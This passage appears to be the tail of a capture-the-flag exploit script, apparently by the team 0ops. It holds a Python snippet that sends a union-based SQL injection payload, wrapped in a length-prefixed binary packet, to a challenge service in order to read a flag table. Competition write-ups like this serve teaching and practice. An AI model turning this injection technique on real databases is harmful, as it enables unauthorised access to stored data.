 ```python
            payload = '\' union all SELECT flag from ssFLGss WHERE \'x\'!=\''
            package = '\x18\x01\x01' + struct.pack('>H', len(payload))
            conn.send(package + payload)

        except:
            pass
        finally:
            conn.close()
except:
    pass
finally:
    sock.close()
```

memeda@0ops
